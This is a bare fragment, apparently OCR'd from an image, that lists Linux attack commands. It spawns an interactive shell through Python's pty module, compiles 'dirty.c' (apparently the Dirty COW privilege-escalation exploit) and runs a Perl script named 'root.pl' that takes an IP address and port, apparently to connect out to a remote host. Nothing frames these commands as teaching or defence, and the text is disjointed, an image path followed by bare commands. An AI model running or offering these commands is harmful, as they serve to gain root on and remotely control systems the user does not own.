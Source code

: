 python -c 'import pty; pty.spawn("/bin/sh")'

gcc -pthread dirty.c -o dirty -lcrypt
--------------------------------------------------------------------
perl root.pl [ip] [port]

